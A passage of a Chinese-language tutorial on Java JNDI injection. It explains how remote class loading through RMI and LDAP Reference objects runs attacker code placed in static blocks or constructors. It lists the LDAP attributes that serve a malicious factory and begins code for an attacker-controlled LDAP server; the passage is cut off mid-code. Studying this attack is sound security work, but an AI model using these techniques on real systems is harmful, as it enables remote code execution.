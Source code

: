 调用Class.forName并制定了类加载来加载类，这样可以加载到http://127.0.0.1:1098/Evil.class。再联想一下之前的知识，Class.forName加载类且第二个参数是true（默认也是true）会进行类的加载，也就是静态代码块。因此这时候静态代码块的代码可以执行。

成功加载到了`clas`后，再`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`，调用它的newInstance()，从而调用了无参构造器，执行了无参构造器里面的代码，这也是为什么我们把恶意代码写到无参构造器里面的原因。

如果得到了对象且成功转换成了ObjectFactory，就会调用getObjectInstance方法，这也是为什么可以把代码写到getObjectInstance方法的原因。不过这个有限制，就是我们的恶意类可以转换成ObjectFactory，才可以继续执行不抛出异常。所以如果要利用这个方法的话，恶意类需要继承ObjectFactory才行。

### LDAP + Reference

#### 原理

原理与RMI协议基本一致

>除了RMI服务之外，JNDI还可以对接LDAP服务，且LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址如ldap://xxx/xxx，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。
>
>注意一点就是，LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。

LDAP服务器可以返回恶意工厂，通过以下字段指定：

>entry.addAttribute("javaClassName", "a");
>entry.addAttribute("javaFactory", "a");
>entry.addAttribute("javaCodeBase", url);
>entry.addAttribute("objectClass", "b");


maven依赖

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
    <scope>test</scope>
</dependency>
```

####  实例

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LdapServer {
    public static void main(String[] args) throws Exception {
        //定义一个监听选项
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
        //配置监听选项config，ip地址，端口
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("127.0.0.1"),
```